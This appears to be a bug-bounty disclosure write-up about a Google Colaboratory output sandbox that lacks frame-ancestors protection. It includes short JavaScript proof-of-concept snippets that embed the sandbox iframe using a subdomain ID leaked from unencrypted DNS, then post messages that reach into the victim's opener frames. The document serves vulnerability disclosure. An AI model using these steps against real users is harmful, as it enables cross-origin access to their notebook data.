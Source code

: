 ```yaml
---
title: Insecure sandbox on Colaboratory (Awarded $1337, Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embeded on the attackers website.
- ```parent.opener[0].google``` refers to stuff.
- ```parent.opener[5].document``` refers to the chart.

Sometimes sandboxes use a randomly genrated subdomain for isolation unfortunately due to unencrypted DNS this is not safe <https://www.cloudflare.com/learning/dns/dns-over-tls/>
